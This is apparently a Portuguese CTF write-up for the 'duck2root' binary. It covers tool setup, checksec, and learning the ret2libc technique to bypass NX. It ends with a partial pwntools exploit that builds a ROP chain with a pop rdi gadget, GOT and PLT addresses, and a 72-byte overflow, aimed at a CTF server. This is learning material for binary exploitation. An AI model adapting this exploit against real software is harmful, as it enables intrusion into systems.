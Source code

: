 1. copiei para o meu PC os ficheiros duck2root e libc.so.6

![files](https://github.com/user-attachments/assets/2056bfdc-115c-448b-82aa-7d8c1d3c5ff5)

2. ja tinha visto alguns blogues sobre binary exploitation e lembrei do comando `checksec` para ver as proteções no binário

![checksec](https://github.com/user-attachments/assets/f00fa3e6-9b5d-48a6-bfcb-4ec6537764c4)

vi q tinha NX e fui pesquisar sobre "ELF binary exploitation NX bypass" e vi um termo um pouco familiar "ret2libc", 

sabia que estava no caminho certo por me ter sido dado o libc.so.6 por algum motivo...

Pesquisando mais sobre encontrei o seguinte blog: https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/

mas eu queria mais, procurando no YT por videos de ret2libc até que encontrei: https://www.youtube.com/watch?v=tMN5N5oid2c

(era exatamente o que eu estava á procura, explicando em detalhe, cada passo, até um pouco de bases fundamentais)

O que instalar:

- gdb gef - https://github.com/hugsy/gef

- pwntools (pip3 install pwn)

- pwninit - https://github.com/io12/pwninit/releases/download/3.3.1/pwninit


Depois de baixar o binário e a lib:
1. `pwninit --bin duck2root --libc libc.so.6`

![pwninit](https://github.com/user-attachments/assets/073a7873-c9ea-42ac-8d72-f0a01ec0991b)

2. `patchelf --set-interpreter ./ld-2.35.so ./duck2root` 
3. `checksec ./duck2root`

![checksec](https://github.com/user-attachments/assets/82966f97-6ed8-4629-af35-fca477911d34)

EXPLOIT QUE FINALMENTE FUNCIONA (depois de muitas iterações, perguntas e dúvidas)
```python
#!/usr/bin/env python3

from pwn import * 

exe = process('./duck2root_patched') # run the vulnerable program
p = remote("tribopapaxota.org", 5001) # establish a connetion 

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x40126d # 0x000000000040126d : pop rdi ; ret (ROPgadget --bin duck2root_patched)
printf_at_got = 0x404018 # PTR_printf_00404018, address of .got.plt section of libc function printf in ghidra
puts_at_plt = 0x401030 # 00401030, address of .plt section of the libc function puts in ghidra
back_to_vuln = 0x401272 # 00401272, address of vulnerable_function in ghidra

payload = b"A"*72 # creating our payload that will overflow, we discovered that with 'pattern offset $rsp'
```